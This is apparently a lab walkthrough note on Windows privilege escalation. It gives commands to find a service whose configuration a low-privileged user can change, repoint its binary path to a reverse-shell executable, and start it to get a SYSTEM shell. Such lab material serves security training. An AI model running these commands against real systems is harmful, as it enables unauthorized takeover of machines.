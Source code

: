 ```yaml
---
tags:
  - OperatingSystems
  - Windows
  - UserPrivileges
  - StandardInformation
---
```



1. Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service:
```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```

> [!NOTE]
> The "user" account has the permission to change the service config (SERVICE_CHANGE_CONFIG).

2. Query the service and note that it runs with SYSTEM privileges (SERVICE_START_NAME):
```
sc qc daclsvc
```

3. Modify the service config and set the BINARY_PATH_NAME (binpath) to the reverse.exe executable you created:
```
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

4. Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
```
net start daclsvc
```
